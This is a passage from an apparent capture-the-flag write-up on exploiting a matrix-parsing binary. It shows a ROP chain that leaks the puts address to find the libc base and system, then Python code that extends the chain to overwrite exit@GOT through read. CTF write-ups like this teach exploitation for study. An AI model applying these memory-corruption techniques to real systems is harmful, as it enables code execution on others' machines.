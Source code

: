 ```
[*] exploiting with ropchain:
    0x0000:         0x401c33 pop rdi; ret
    0x0008:         0x603020 got.puts
    0x0010:         0x400a60 puts
[*] rop payload:
    00000000  33 1c 40 00  00 00 00 00  20 30 60 00  00 00 00 00  │3·@·│····│ 0`·│····│
    00000010  60 0a 40 00  00 00 00 00                            │`·@·│····││
    00000018
[*] setting 229 to 2.07582817451e-317
[*] setting 230 to 3.11447916068e-317
[*] setting 231 to 2.07357375297e-317
...
[*] input matrix:
    1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
    0,1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
    0,0,1,0,0,0,0,0,0,0,0,0,0,0,0,0,
    0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,0,
    0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,
    0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,
    0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,
    0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,
    0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,
    0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,
    0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,
    0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,
    0,0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,
    0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,0,
    0,0,0,0,0,-2.07583e-317,-3.11448e-317,-2.07357e-317,0,0,0,0,0,0,1,0,
    0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,
[*] result matrix:
[*] leaked:
    00000000  10 11 7e b3  4a 7f                                  │··~·│J·│
    00000006
[*] puts @ 0x7f4ab37e1110
[*] leaked libc base at 0x7f4ab3777000, system at 0x7f4ab37b7d00
```

We then tried it on the server and received no output :( WTF. We speculated a
lot why this might be the case. Whether somehow the input was not parsed the
same way, i.e. the precision of `strtod` was different etc. This was kind of of
demotivating, but nevertheless we continued to construct a exploit that was
working locally. We started off by extending the first ROP:

```python
chain0 = ROP(velf)
# first infoleak libc address
chain0.raw(poprdiret)
chain0.raw(velf.got['puts'])
chain0.raw(velf.symbols['puts'])
# then call read(0, exit@GOT, X)
chain0.raw(poprdiret)
chain0.raw(0)  # stdin
chain0.raw(poprsir15)
chain0.raw(velf.got['exit'])
chain0.raw(0x42)  # dummy values
# call read and hope that rdx is something useful
chain0.raw(velf.symbols['read'])
# call corrupted exit
chain0.raw(velf.symbols['exit'])
```

